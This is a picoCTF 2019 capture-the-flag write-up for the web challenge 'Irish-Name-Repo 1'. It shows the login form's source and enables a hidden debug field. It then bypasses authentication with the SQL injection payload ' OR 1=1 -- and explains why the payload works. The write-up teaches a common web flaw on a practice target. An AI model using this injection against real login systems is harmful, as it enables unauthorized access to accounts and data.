# Irish-Name-Repo 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2019, Web Exploitation
Author: CHRIS HENSLER

Description:
There is a website running at https://jupiter.challenges.picoctf.org/problem/33850/ 
or http://jupiter.challenges.picoctf.org:33850. 

Do you think you can log us in? Try to see if you can login!

Hints:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.
```

## Solution

Browse to the web site and click on the menu-button in the upper left corner.  
Select `Admin Login` and you get redirected to `/login.html`.

Right-click on the background and select `View page source` in the menu (or press `CTRL + U`) to get the HTML-source.
```html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

Hhm, there is a hidden field named `debug` with the value of `0`. (`<input type="hidden" name="debug" value="0">`)  

Lets change this value to `1` with DevTools.  
Press `F12` to open DevTools, then navigate to the form in the `Elements` tab.  
Right-click on the value to change it.

If we try to login with username `admin` and password `admin` we get this message.
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.
```

Ah, there is a SQL-database in the backend. Lets start looking for [SQL injection](https://en.wikipedia.org/wiki/SQL_injection).

Trying to login with username `admin` and password `' OR 1=1 --` returns a web page with
```
username: admin
password: ' OR 1=1 --
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1 --'

Logged in!

Your flag is: picoCTF{<REDACTED>}
```

The first single quote in the `password` field ends the `WHERE` statement.  
The `OR 1=1` is just a statement that is always true, making the login valid.  
The `--` makes sure any code after this (the final single quote) is interpreted a comment.

For additional information, please see the references below.

## References

- [Wikipedia - SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
